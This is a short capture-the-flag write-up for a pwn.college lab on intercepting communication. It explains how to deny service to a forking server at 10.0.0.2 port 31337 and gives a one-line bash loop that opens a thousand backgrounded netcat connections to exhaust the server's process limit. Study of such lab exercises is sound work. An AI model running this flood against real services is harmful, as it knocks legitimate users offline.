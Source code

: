 ```yaml
---
tags: ["Computer Networking"]
title: "Denied of Service 2"
description: Denied of Service 2
reference: https://pwn.college/intro-to-cybersecurity/intercepting-communication/
---
```


# Problem

The client at 10.0.0.3 is communicating with the server at 10.0.0.2 on port 31337. Deny this service.

This time the server forks a new process for each client connection.

# Solution

Make the server to serve many "fake" clients at the same time so that the server will reach to it process count limits and the client at 10.0.0.3 can't connect to the server.

```
for i in {1..1000}; do nc 10.0.0.2 31337 -d & done
```

